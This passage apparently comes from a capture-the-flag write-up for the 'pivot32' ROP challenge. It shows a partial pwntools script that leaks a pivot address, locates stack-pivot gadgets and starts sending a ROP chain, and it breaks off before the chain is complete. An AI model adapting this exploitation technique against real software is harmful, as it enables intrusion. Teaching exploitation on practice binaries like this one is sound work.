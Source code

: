 

Let's spin up a pwntools script that will grab these addresses, and put them into a ROP chain:

	```python
	from pwn import *
	from pprint import pprint
	offset = 40
	
	context.arch = 'i386'
	
	elf = ELF("./pivot32")
	p = elf.process()
	rop = ROP(elf)
	
	#pprint(elf.symbols)
	#pprint(rop.gadgets)
	
	# uncomment next 3 lines to debug
	gdb.attach(p, gdbscript='''
	#script
	break *pwnme+180
	''')
	
	#debugging for rop gadgets
	prompt = p.recvuntil(": ")
	#print("prompt 1 is: ", prompt)
	
	line = p.recvline()
	line = line.decode("ascii") 
	x = re.findall("0x[\w]{7,8}", line)                                                                    
	#print("x is: " , x)
	
	hex_str = x[0][2:]
	pivot_addr = p32(int(hex_str,16))
	#print("send rop chain to : " , pivot_addr)
	
	rop_chain_prompt = p.recvuntil(">")
	
	
	# pop eax; ret
	eax_gadget = p32(rop.eax.address)
	
	# xchg esp, eax; ret
	pivot_gadget = p32(elf.symbols['usefulGadgets']+2)
	
	rop_chain = [
	        b'shed'
	        ]
	
	rop_chain = b"".join(rop_chain)
	p.sendline(rop_chain)
	
	stack_smash_prompt = p.recvuntil(">")
	